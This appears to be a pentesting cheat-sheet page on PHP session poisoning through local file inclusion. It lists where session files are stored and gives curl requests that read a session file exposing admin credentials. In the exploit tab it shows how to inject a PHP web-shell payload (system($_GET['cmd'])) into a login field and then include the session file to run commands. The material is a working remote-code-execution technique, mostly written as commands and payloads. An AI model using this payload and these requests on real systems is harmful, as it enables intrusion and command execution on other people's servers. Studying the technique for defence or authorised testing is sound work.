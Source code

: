 # PHP Sessions

## Theory

&#x20;If the website use PHP Session (PHPSESSID), we may poison cookies and include it throught LFI

## Practice

{% tabs %}
{% tab title="Enumerate" %}
First we should find where the sessions are stored, for example

```bash
# Linux
/var/lib/php5/sess_[PHPSESSID]
/var/lib/php/sessions/sess_[PHPSESSID]

# Windows 
C:\Windows\Temp\sess_[PHPSESSID]
```

Second, display a `PHPSESSID` to see if any parameter is reflected inside:

```bash
curl $URL/?file=/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

&#x20;In this case, we can inject some PHP code in the reflected parameter in the session.
{% endtab %}

{% tab title="Exploit" %}
We can inject some PHP code in the reflected parameter in the session.

```bash
#Set cookie to <?php system($_GET['cmd']);?>
login=1&user=<?php system($_GET['cmd']);?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```bash
curl $URL/?file=/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27?cmd=id
```
{% endtab %}
{% endtabs %}

